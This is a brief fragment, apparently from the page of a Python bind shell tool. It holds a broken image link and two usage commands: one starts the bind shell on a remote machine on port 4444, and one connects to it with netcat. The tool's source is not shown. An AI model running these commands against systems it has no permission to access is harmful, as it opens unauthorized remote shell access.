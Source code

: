 Usage bind shell

on remote machine> python bindshell.py --port 4444

Catch with a listener on your host> nc 10.10.10.10 4444 -nv
